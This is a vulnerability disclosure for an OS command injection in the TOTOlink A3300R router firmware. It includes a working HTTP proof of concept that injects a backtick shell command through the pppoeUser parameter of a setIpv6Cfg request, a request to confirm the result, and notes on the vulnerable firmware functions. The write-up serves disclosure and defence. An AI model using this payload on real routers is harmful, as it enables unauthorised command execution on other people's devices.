 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setIpv6Cfg` request,`pppoeUser`or `pppoePass`parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=DFFE288434C4FC2A HTTP/1.1
Host: itotolink.net
Content-Length: 235
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ipv6.html?token=DFFE288434C4FC2A
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"dnsAutoFake":"1","lanAutoFake":"1","wanDhcp":"2","wanPriv":"0","lanRadvFake":"1","lanDhcp":"1","pppoeUser":"yy`ls>/web/cmdi7.txt`","pppoePass":"1234","pppoeServiceName":"","pppoeMtu":"1492","service":"pppoe6","topicurl":"setIpv6Cfg"}
```

injection the command "ls>/web/cmdi7.txt"

![image-20240119125319849](D:\typora 图片\image-20240119125319849.png)

check the result.

```
GET /cmdi7.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/wizard.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119125609275](D:\typora 图片\image-20240119125609275.png)

## Analysis

sub_422380 get `pppoeUser` parameter from request body

![image-20240119131956114](D:\typora 图片\image-20240119131956114.png)

then pass to sub_41ECF8 function which handle `setIpv6Cfg` request

![image-20240119132112844](D:\typora 图片\image-20240119132112844.png)